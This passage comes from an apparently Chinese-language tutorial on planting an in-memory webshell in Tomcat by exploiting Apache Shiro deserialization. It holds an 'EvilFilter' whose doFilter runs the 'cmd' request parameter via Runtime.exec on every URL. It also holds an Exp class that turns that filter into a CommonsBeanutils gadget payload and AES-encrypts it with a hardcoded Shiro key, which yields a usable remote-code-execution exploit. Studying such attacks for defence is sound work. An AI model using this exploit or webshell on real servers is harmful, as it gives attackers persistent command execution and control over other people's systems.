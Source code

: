```plain
            filterConfigs.put("EvilFilter", filterConfig);
            //FilterMap
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("EvilFilter");
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context.addFilterMap(filterMap);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

这里没有做回显处理只是简单的测试一下命令执行的功能。

#### 内存马测试

我们既然是要通过 shiro 的反序列化漏洞注入内存马，我们就要选择一个 gadget，在通常情况下 shiro 是没有 CC 依赖的，所以我选择打 CB 链。具体的 CB 链 payload 的构成可以参照 p 神的 java 安全漫谈配套源码[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings) 众所周知想要完成 shiro 的反序列化还需要用 AES 对生成的 payload 进行加密，所以我们最终得到的 poc 如下，使用如下代码段即可完成 payload 的生成（CommonsBeanutils1Shiro() 就是 p 神的那条 CB 链）

```plain
public class Exp {
    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(BehinderFilter.class.getName());
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```